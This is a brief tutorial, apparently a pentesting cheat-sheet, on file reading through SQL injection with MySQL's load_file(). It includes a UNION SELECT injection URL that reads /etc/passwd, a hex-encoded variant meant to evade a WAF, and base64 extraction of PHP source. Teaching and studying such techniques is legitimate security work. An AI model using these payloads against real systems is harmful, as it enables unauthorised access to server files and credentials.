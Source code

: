 # SQL Injection: LFI (Local File Inclusion) via load_file() function

If the database user has read permission (which most of the time it does), it is possible for an attacker to read the internal file of the server, with a small caviat that the absolute path must be known (just as a normal LFI).
In order to perform this kind of attack, the following function must be used:  

```sql
load_file(/path/to/file)
```

For example, the most basic approach is to read /etc/passwd:  
```sql
load_file('../etc/passwd')
```

A simple usage of the query:  
```
http://domain.com/index.php?id=1' Union Select 1,2,3,load_file('/etc/passwd'),5,6,7,8,9,10,11,12-- -
```

Alternatively you can convert **/etc/passwd** in 0xHex Format (in case WAF blocks it, or the backslashes might break up the syntax:  
```sql
load_file(0x2e2e2f6574632f706173737764)
```
Just like normal LFI, it is possible to convert the content of the file in base64, thanks to **TO_base64()** function:  
```sql
TO_base64(LOAD_FILE('/var/www/html/index.php'))  
```

